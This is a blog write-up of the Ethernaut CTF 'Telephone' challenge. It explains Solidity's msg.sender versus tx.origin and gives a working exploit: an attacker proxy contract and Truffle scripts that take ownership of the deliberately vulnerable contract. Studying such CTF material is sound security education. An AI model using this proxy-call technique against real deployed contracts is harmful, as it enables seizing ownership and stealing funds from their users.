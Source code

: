Title: Solving OpenZeppelin's Ethernaut CTF - Telephone
Date: 2018-06-10
Tags: ethereum, solidity, ctf, smart contracts
Slug: telephone-challenge-solution
Summary: Fifth post of a series in which we tackle the challenges in the [Ethernaut CTF by OpenZeppelin](https://ethernaut.openzeppelin.com/){:target="_blank",:rel="noopener"}. We claim ownership of the Telephone contract by first understanding the difference between the sender and origin of Ethereum transactions.

## Introduction
The Telephone contract challenge is far from being the hardest or most complex of all, but through solving it we will dig a bit deeper in how Ethereum works internally. Not so much to say here, so just go and [read the challenge](https://ethernaut.openzeppelin.com/level/0x6b7b4a5260b67c1ee9196a42dd1ed8633231ba0a){:target="_blank",:rel="noopener"}.

## The Telephone Contract
Our objective is to claim ownership of the contract. According the the constructor's code, the deployer is the first owner.
~~~solidity
function Telephone() public {
    owner = msg.sender;
}
~~~

Anybody with intentions to become the new owner must call the public `changeOwner` function passing the address as an argument:
~~~solidity
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
}
~~~
Doesn't seem so difficult, except for that `if` clause. Let's see what it means.

Among the available global variables in Solidity, there're two which can be a bit confusing at first: `msg.sender` and `tx.origin`. Up until now, we've only seen and used `msg.sender` to reference the caller's address. However, while [solving the Coinflip challenge]({filename}coinflip.md), we learned that public functions can be called both from 'outside' the blockchain (i.e. from an externally owned account) or 'inside' the blockchain (from another contract's code).
Moreover, we stated that while all **transactions** are originated by an EOA, contracts can send messages to each other, those messages being all included in the same transaction which triggered the whole call chain.

As a result, in Solidity there are two different global variables to reference each of those cases. On the one hand, `msg.sender` references the actual caller (the last caller in the call chain) of the function. It could be an EOA or a contract address.

On the other hand, `tx.origin` indicates the address of the EOA that gave origin to the whole transaction.

For instance, imagine that the externally owned account 'A' calls a function in contract 'B' which calls a function in contract 'C'. This super complex call chain results in: A -> B -> C. In B's code, `tx.origin` and `msg.sender` would be the same: the address of A. Conversely, in C's code, `tx.origin` and `msg.sender` would be different: while `msg.sender` would be B's address, `tx.origin` would equal A's address.

All of this means that, to become the owner of Telephone, an attacker cannot simply call the `changeOwner` public function from his/her EOA. Were he/she to do that, `tx.origin` would always equal `msg.sender` (your address), thus the `if` clause would never be true.

Instead, the solution relies on deploying a new 'proxy' contract (just like we did in the Coinflip challenge) controlled by the attacker (us), which will be in charge of calling the `changeOwner` function of `Telephone` contract and become its owner on the attacker's behalf.

## The exploit

Let's first write the `TelephoneAttack` contract code. Note its similarities with the [`CoinflipAttack` contract](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/contracts/CoinFlipAttack.sol){:rel="noopener"} we saw in the previous post. The same observations we highlighted in that one apply here as well.

~~~solidity
pragma solidity ^0.4.18;

import "./Telephone.sol";

contract TelephoneAttack {
    Telephone public victimContract;

    function setVictim(address _addr) public {
        victimContract = Telephone(_addr);
    }

    function changeOwner(address _owner) public {
        victimContract.changeOwner(_owner);
    }
}
~~~

Once you added `Telephone.sol` and `TelephoneAttack.sol` to the `contracts` folder of your project, write the necessary code (see below) to deploy both of them to the blockchain in `migrations/2_deploy_contracts.js`. Then run `npx truffle migrate`.

~~~javascript
let Telephone = artifacts.require('./Telephone.sol')
let TelephoneAttack = artifacts.require('./TelephoneAttack.sol')
module.exports = deployer => {
    deployer.deploy(Telephone)
    deployer.deploy(TelephoneAttack)
}
~~~

Inside your `exploits` folder, create a file called `telephone.exploit.js`. As always, follow the same code structure used for the previous exploits:

~~~javascript
const TelephoneContract = artifacts.require('Telephone')
const TelephoneAttackContract = artifacts.require('TelephoneAttack')
const assert = require('assert')

async function execute(callback) {
    let victimContract = await TelephoneContract.deployed()
    let proxyContract = await TelephoneAttackContract.deployed()

    // Set the victim's address
    proxyContract.setVictim(victimContract.address)
    
    // Get the attacker account
    let attackerAccount = web3.eth.accounts[1]
    console.log(`Attacker account is ${attackerAccount}`)

    // Check original owner
    let contractOwner = await victimContract.owner.call()
    console.log(`Original owner ${contractOwner}`)

    callback()
}
module.exports = execute
~~~

Changing the owner is just a matter of calling our malicious contract's `changeOwner` function from our attacker account. Then verify that the ownership was succesfuly changed:
~~~javascript
// Change owner
await proxyContract.changeOwner(attackerAccount, {
    from: attackerAccount
})

// Check final owner
contractOwner = await victimContract.owner.call()
assert.equal(contractOwner, attackerAccount)
console.log(`New owner ${contractOwner}`)
~~~

Now run `npx truffle exec exploits/telephone.exploit.js` and that's it! Challenge passed.

See the [full code of the exploit](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/exploits/telephone.exploit.js) and the [attacker contract code](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/contracts/TelephoneAttack.sol).

Thanks for reading!. For the [next post]({filename}token.md), be ready to **steal some ethers** from a basic token contract and pass the [Token challenge](https://ethernaut.openzeppelin.com/level/0x6545df87f57d21cb096a0bfcc53a70464d062512){:rel="noopener"}.
